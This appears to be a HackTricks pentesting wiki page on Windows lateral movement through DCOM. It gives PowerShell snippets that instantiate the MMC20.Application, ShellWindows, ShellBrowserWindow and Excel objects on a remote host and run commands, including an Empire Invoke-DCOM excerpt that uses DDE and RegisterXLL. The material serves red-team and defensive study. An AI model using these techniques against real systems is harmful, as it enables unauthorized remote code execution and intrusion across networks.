 # DCOM Exec

<details>

<summary><a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ HackTricks LIVE Twitch</strong></a> <strong>Wednesdays 5.30pm (UTC) 🎙️ -</strong> <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**hacktricks repo**](https://github.com/carlospolop/hacktricks) **and** [**hacktricks-cloud repo**](https://github.com/carlospolop/hacktricks-cloud)..

</details>

## MMC20.Application

**DCOM** (Distributed Component Object Model) objects are **interesting** due to the ability to **interact** with the objects **over the network**. Microsoft has some good documentation on DCOM [here](https://msdn.microsoft.com/en-us/library/cc226801.aspx) and on COM [here](https://msdn.microsoft.com/en-us/library/windows/desktop/ms694363\(v=vs.85\).aspx). You can find a solid list of DCOM applications using PowerShell, by running `Get-CimInstance Win32_DCOMApplication`.

The [MMC Application Class (MMC20.Application)](https://technet.microsoft.com/en-us/library/cc181199.aspx) COM object allows you to script components of MMC snap-in operations. While enumerating the different methods and properties within this COM object, I noticed that there is a method named `ExecuteShellCommand` under Document.ActiveView.

![](<../../.gitbook/assets/image (4) (2) (1).png>)

You can read more on that method [here](https://msdn.microsoft.com/en-us/library/aa815396\(v=vs.85\).aspx). So far, we have a DCOM application that we can access over the network and can execute commands. The final piece is to leverage this DCOM application and the ExecuteShellCommand method to obtain code execution on a remote host.

Fortunately, as an admin, you can remotely interact with DCOM with PowerShell by using “`[activator]::CreateInstance([type]::GetTypeFromProgID`”. All you need to do is provide it a DCOM ProgID and an IP address. It will then provide you back an instance of that COM object remotely:

![](<../../.gitbook/assets/image (665).png>)

It is then possible to invoke the `ExecuteShellCommand` method to start a process on the remote host:

![](<../../.gitbook/assets/image (1) (4).png>)

## ShellWindows & ShellBrowserWindow

The **MMC20.Application** object lacked explicit “[LaunchPermissions](https://technet.microsoft.com/en-us/library/bb633148.aspx)”, resulting in the default permission set allowing Administrators access:

![](<../../.gitbook/assets/image (4) (1) (2).png>)

You can read more on that thread [here](https://twitter.com/tiraniddo/status/817532039771525120).\
Viewing which other objects that have no explicit LaunchPermission set can be achieved using [@tiraniddo](https://twitter.com/tiraniddo)’s [OleView .NET](https://github.com/tyranid/oleviewdotnet), which has excellent Python filters (among other things). In this instance, we can filter down to all objects that have no explicit Launch Permission. When doing so, two objects stood out to me: `ShellBrowserWindow` and `ShellWindows`:

![](<../../.gitbook/assets/image (3) (1) (1).png>)

Another way to identify potential target objects is to look for the value `LaunchPermission` missing from keys in `HKCR:\AppID\{guid}`. An object with Launch Permissions set will look like below, with data representing the ACL for the object in Binary format:

![](https://enigma0x3.files.wordpress.com/2017/01/launch\_permissions\_registry.png?w=690\&h=169)

Those with no explicit LaunchPermission set will be missing that specific registry entry.

### ShellWindows

The first object explored was [ShellWindows](https://msdn.microsoft.com/en-us/library/windows/desktop/bb773974\(v=vs.85\).aspx). Since there is no [ProgID](https://msdn.microsoft.com/en-us/library/windows/desktop/ms688254\(v=vs.85\).aspx) associated with this object, we can use the [Type.GetTypeFromCLSID](https://msdn.microsoft.com/en-us/library/system.type.gettypefromclsid\(v=vs.110\).aspx) .NET method paired with the[ Activator.CreateInstance](https://msdn.microsoft.com/en-us/library/system.activator.createinstance\(v=vs.110\).aspx) method to instantiate the object via its AppID on a remote host. In order to do this, we need to get the [CLSID](https://msdn.microsoft.com/en-us/library/windows/desktop/ms691424\(v=vs.85\).aspx) for the ShellWindows object, which can be accomplished using OleView .NET as well:

![shellwindow\_classid](https://enigma0x3.files.wordpress.com/2017/01/shellwindow\_classid.png?w=434\&h=424)

As you can see below, the “Launch Permission” field is blank, meaning no explicit permissions are set.

![screen-shot-2017-01-23-at-4-12-24-pm](https://enigma0x3.files.wordpress.com/2017/01/screen-shot-2017-01-23-at-4-12-24-pm.png?w=455\&h=401)

Now that we have the CLSID, we can instantiate the object on a remote target:

```powershell
$com = [Type]::GetTypeFromCLSID("<clsid>", "<IP>") #9BA05972-F6A8-11CF-A442-00A0C90A8F39
$obj = [System.Activator]::CreateInstance($com)
```

![](https://enigma0x3.files.wordpress.com/2017/01/remote\_instantiation\_shellwindows.png?w=690\&h=354)

With the object instantiated on the remote host, we can interface with it and invoke any methods we want. The returned handle to the object reveals several methods and properties, none of which we can interact with. In order to achieve actual interaction with the remote host, we need to access the [WindowsShell.Item](https://msdn.microsoft.com/en-us/library/windows/desktop/bb773970\(v=vs.85\).aspx) method, which will give us back an object that represents the Windows shell window:

```
$item = $obj.Item()
```

![](https://enigma0x3.files.wordpress.com/2017/01/item\_instantiation.png?w=416\&h=465)

With a full handle on the Shell Window, we can now access all of the expected methods/properties that are exposed. After going through these methods, **`Document.Application.ShellExecute`** stood out. Be sure to follow the parameter requirements for the method, which are documented [here](https://msdn.microsoft.com/en-us/library/windows/desktop/gg537745\(v=vs.85\).aspx).

```powershell
$item.Document.Application.ShellExecute("cmd.exe", "/c calc.exe", "c:\windows\system32", $null, 0)
```

![](https://enigma0x3.files.wordpress.com/2017/01/shellwindows\_command\_execution.png?w=690\&h=426)

As you can see above, our command was executed on a remote host successfully.

### ShellBrowserWindow

This particular object does not exist on Windows 7, making its use for lateral movement a bit more limited than the “ShellWindows” object, which I tested on Win7-Win10 successfully.

Based on my enumeration of this object, it appears to effectively provide an interface into the Explorer window just as the previous object does. To instantiate this object, we need to get its CLSID. Similar to above, we can use OleView .NET:

![shellbrowser\_classid](https://enigma0x3.files.wordpress.com/2017/01/shellbrowser\_classid.png?w=428\&h=414)

Again, take note of the blank Launch Permission field:

![screen-shot-2017-01-23-at-4-13-52-pm](https://enigma0x3.files.wordpress.com/2017/01/screen-shot-2017-01-23-at-4-13-52-pm.png?w=399\&h=340)

With the CLSID, we can repeat the steps taken on the previous object to instantiate the object and call the same method:

```powershell
$com = [Type]::GetTypeFromCLSID("C08AFD90-F2A1-11D1-8455-00A0C91F3880", "<IP>")
$obj = [System.Activator]::CreateInstance($com)

$obj.Document.Application.ShellExecute("cmd.exe", "/c calc.exe", "C:\Windows\system32", $null, 0)
```

![](https://enigma0x3.files.wordpress.com/2017/01/shellbrowserwindow\_command\_execution.png?w=690\&h=441)

As you can see, the command successfully executed on the remote target.

Since this object interfaces directly with the Windows shell, we don’t need to invoke the “ShellWindows.Item” method, as on the previous object.

While these two DCOM objects can be used to run shell commands on a remote host, there are plenty of other interesting methods that can be used to enumerate or tamper with a remote target. A few of these methods include:

* `Document.Application.ServiceStart()`
* `Document.Application.ServiceStop()`
* `Document.Application.IsServiceRunning()`
* `Document.Application.ShutDownWindows()`
* `Document.Application.GetSystemInformation()`

## ExcelDDE & RegisterXLL

In a similar way it's possible to move laterally abusing DCOM Excel objects, for more information read [https://www.cybereason.com/blog/leveraging-excel-dde-for-lateral-movement-via-dcom](https://www.cybereason.com/blog/leveraging-excel-dde-for-lateral-movement-via-dcom)

```powershell
# Chunk of code from https://github.com/EmpireProject/Empire/blob/master/data/module_source/lateral_movement/Invoke-DCOM.ps1
## You can see here how to abuse excel for RCE
elseif ($Method -Match "DetectOffice") {
    $Com = [Type]::GetTypeFromProgID("Excel.Application","$ComputerName")
    $Obj = [System.Activator]::CreateInstance($Com)
    $isx64 = [boolean]$obj.Application.ProductCode[21]
    Write-Host  $(If ($isx64) {"Office x64 detected"} Else {"Office x86 detected"})
}
elseif ($Method -Match "RegisterXLL") {
    $Com = [Type]::GetTypeFromProgID("Excel.Application","$ComputerName")
    $Obj = [System.Activator]::CreateInstance($Com)
    $obj.Application.RegisterXLL("$DllPath")
}
elseif ($Method -Match "ExcelDDE") {
    $Com = [Type]::GetTypeFromProgID("Excel.Application","$ComputerName")
    $Obj = [System.Activator]::CreateInstance($Com)
    $Obj.DisplayAlerts = $false
    $Obj.DDEInitiate("cmd", "/c $Command")
}
```

## Tool

The Powershell script [**Invoke-DCOM.ps1**](https://github.com/EmpireProject/Empire/blob/master/data/module\_source/lateral\_movement/Invoke-DCOM.ps1) allows to easily invoke all the commented ways to execute code in other machines.

## References

* The first method was copied from [https://enigma0x3.net/2017/01/05/lateral-movement-using-the-mmc20-application-com-object/](https://enigma0x3.net/2017/01/05/lateral-movement-using-the-mmc20-application-com-object/), for more info follow the link
* The second section was copied from [https://enigma0x3.net/2017/01/23/lateral-movement-via-dcom-round-2/](https://enigma0x3.net/2017/01/23/lateral-movement-via-dcom-round-2/), for more info follow the link

<details>

<summary><a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ HackTricks LIVE Twitch</strong></a> <strong>Wednesdays 5.30pm (UTC) 🎙️ -</strong> <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**hacktricks repo**](https://github.com/carlospolop/hacktricks) **and** [**hacktricks-cloud repo**](https://github.com/carlospolop/hacktricks-cloud).

</details>
